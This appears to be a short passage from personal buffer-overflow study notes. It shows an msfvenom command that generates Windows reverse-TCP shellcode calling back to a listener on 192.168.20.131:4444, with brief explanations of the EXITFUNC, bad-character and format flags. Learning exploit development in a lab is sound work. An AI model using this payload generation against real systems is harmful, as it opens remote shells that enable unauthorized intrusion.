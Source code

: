 ```python
┌──(hyok㉿kali)-[~/Bof]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.131 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```
	- EXITFUNC=thread --> It is just there to generate a stable shell
	- -b --> for defining bad character
	- -f --> file type(which is c in this case)

![[shell_code_bof.png]]
The highlighted one is the shell code.